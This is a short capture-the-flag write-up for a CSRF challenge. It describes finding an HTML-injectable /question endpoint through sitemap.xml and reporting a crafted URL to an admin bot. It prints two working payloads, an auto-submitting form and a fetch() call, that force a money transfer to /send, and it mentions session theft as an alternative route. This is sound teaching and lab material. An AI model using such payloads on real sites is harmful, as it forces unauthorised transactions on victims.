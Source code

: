 ## 2022 Final CSRF
### Author: melon

* Find sitemap.xml, which reveals `/question`, which is vulnerable to HTML injection
* Through that endpoint we can cause the user to be forced to make a fake payment request
* Then, we report the url and replace it with the `/question?...` payload we created
* NOTE: THE COOKIE MUST BE HTTPONLY, or else you can just steal the admin's session, it's not intended to be an XSS challenge

* Both of the following payloads will work (an actual CSRF-style HTML payload, or copy pasting the javascript code that's actually used)
```html
<form id="bad-form" name="form" method="POST" action="/send">
	<input type="text" name="to" value="melon">
	<input type="text" name="amount" value="50">
	<input type="submit" value="transfer">
</form>
<script>
	document.addEventListener('DOMContentLoaded', document.getElementById('bad-form').submit());
</script>
```

```html
<script>
fetch('/send', { 
	method: 'POST', headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({ to: 'melon', amount: 50 })});
</script>
```